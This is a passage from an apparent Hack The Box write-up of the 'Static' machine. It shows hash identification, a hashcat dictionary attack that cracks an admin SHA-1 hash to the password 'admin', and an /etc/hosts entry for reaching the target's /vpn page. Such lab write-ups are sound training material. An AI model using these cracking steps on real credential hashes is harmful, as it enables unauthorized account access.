 ```bash
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #                                                                                                 
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```

## Cracking password

We crack the password using hashcat

```bash
─[us-dedivip-1]─[10.10.16.232]─[jpfguedes@htb]─[~/htb/Machines/Static/exploitation]
└──╼ [★]$ hashcat -m 100 hashes/admin.hash /usr/share/wordlists/rockyou.txt

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

d033e22ae348aeb5660fc2140aec35850c4da997:admin
```

## Adding IP to our /etc/hosts

```bash
─[us-dedivip-1]─[10.10.16.232]─[jpfguedes@htb]─[~/htb/Machines/Static]
└──╼ [★]$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       htb

10.10.10.246    static.htb
```

After this, we can access `/vpn` URL

![Untitled%205.png](Untitled%205.png)
